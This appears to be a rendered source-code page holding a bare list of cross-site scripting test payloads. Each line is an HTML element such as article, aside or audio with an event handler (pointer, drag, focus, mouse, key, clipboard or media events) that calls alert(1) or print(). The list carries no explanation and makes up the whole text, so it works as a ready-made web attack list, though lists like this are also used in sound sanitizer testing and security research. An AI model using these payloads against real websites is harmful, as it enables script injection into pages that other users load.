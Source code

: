 &lt;article onpointerover=alert(1)&gt;XSS&lt;/article&gt;
&lt;article onpointerrawupdate=alert(1)&gt;XSS&lt;/article&gt;
&lt;article onpointerup=alert(1)&gt;XSS&lt;/article&gt;
&lt;aside draggable="true" ondrag="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside draggable="true" ondragend="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside draggable="true" ondragenter="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside draggable="true" ondragleave="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside draggable="true" ondragstart="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside id=x tabindex=1 onactivate=alert(1)&gt;&lt;/aside&gt;
&lt;aside id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/aside&gt;
&lt;aside id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/aside&gt;&lt;input autofocus&gt;
&lt;aside id=x tabindex=1 ondeactivate=print()&gt;&lt;/aside&gt;&lt;input id=y autofocus&gt;
&lt;aside id=x tabindex=1 onfocus=alert(1)&gt;&lt;/aside&gt;
&lt;aside id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/aside&gt;
&lt;aside onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;aside onbeforecopy="alert(1)" contenteditable&gt;test&lt;/aside&gt;
&lt;aside onbeforecut="alert(1)" contenteditable&gt;test&lt;/aside&gt;
&lt;aside onbeforepaste="alert(1)" contenteditable&gt;test&lt;/aside&gt;
&lt;aside onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;aside onblur=alert(1) tabindex=1 id=x&gt;&lt;/aside&gt;&lt;input autofocus&gt;
&lt;aside onclick="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside oncontextmenu="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;aside oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;aside ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/aside&gt;
&lt;aside onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/aside&gt;&lt;input autofocus&gt;
&lt;aside onkeydown="alert(1)" contenteditable&gt;test&lt;/aside&gt;
&lt;aside onkeypress="alert(1)" contenteditable&gt;test&lt;/aside&gt;
&lt;aside onkeyup="alert(1)" contenteditable&gt;test&lt;/aside&gt;
&lt;aside onmousedown="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside onmouseenter="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside onmouseleave="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside onmousemove="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside onmouseout="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside onmouseover="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside onmouseup="alert(1)"&gt;test&lt;/aside&gt;
&lt;aside onmousewheel=alert(1)&gt;requires scrolling
&lt;aside onpaste="alert(1)" contenteditable&gt;test&lt;/aside&gt;
&lt;aside onpointerdown=alert(1)&gt;XSS&lt;/aside&gt;
&lt;aside onpointerenter=alert(1)&gt;XSS&lt;/aside&gt;
&lt;aside onpointerleave=alert(1)&gt;XSS&lt;/aside&gt;
&lt;aside onpointermove=alert(1)&gt;XSS&lt;/aside&gt;
&lt;aside onpointerout=alert(1)&gt;XSS&lt;/aside&gt;
&lt;aside onpointerover=alert(1)&gt;XSS&lt;/aside&gt;
&lt;aside onpointerrawupdate=alert(1)&gt;XSS&lt;/aside&gt;
&lt;aside onpointerup=alert(1)&gt;XSS&lt;/aside&gt;
&lt;audio autoplay controls onpause=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio autoplay controls onseeked=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio autoplay controls onseeking=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio autoplay controls onvolumechange=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio autoplay onloadedmetadata=alert(1)&gt; &lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio autoplay onplay=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio autoplay onplaying=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio controls autoplay onended=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio controls autoplay ontimeupdate=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;